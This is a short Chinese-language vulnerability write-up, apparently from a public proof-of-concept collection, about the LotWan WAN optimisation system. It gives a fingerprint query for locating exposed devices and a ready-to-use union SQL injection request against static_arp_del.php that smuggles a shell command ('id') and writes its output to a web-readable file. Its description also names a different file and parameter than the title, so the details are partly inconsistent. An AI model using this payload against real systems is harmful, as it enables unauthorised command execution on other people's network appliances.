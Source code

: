 # 华夏创新 LotWan广域网优化系统 static_arp_del.php SQL注入漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## 网络测绘

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面

![image-20220519182931309](./images/202205191829394.png)

存在漏洞的文件为 static_arp_del.php, 通过union注入写入文件

```
/acc/bindipmac/static_arp_del.php?x=1&arpName=1' and 0 union select 1,'||id>cmd.txt||',3,4,5,6,7,8--
```

再访问 `/acc/bindipmac/cmd.txt`

![image-20220519182946695](./images/202205191829769.png)
